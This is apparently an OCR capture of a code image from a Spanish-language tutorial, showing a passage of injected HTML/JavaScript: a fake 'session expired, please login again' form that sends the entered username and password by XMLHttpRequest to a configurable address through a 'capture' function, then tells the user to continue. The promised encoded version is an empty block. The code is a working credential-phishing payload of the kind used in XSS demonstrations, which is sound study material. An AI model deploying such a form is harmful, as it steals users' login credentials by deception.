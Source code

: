 ```html
			lXMLHTTP.open(lMethod, lAction, true);
			lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
			lXMLHTTP.send(lData);
		}catch(e){
			alert(e.message);
		};
		alert("Thanks! You may continue now.");
		document.getElementById("modal").setAttribute("style", "");
	};//end function
	</script>
	<form>
		<table style="font-weight:bold;">
			<tbody><tr><td colspan="2" style="font-size:20px;">Sorry! Your session has expired.<br><br>Please login again.</td></tr>
			<tr><td colspan="2">&nbsp;</td></tr>
			<tr><td>Username</td><td><input name="username" type="text"></td></tr>
			<tr><td>Password</td><td><input name="password" type="password"></td></tr>
			<tr><td colspan="2" style="text-align:center;"><input type="button" onclick="javascript:capture(this.form);" value="      Submit      "></td></tr>
		</tbody></table>
	</form>
</div>
```

Y codificado quedaria asi:

```
```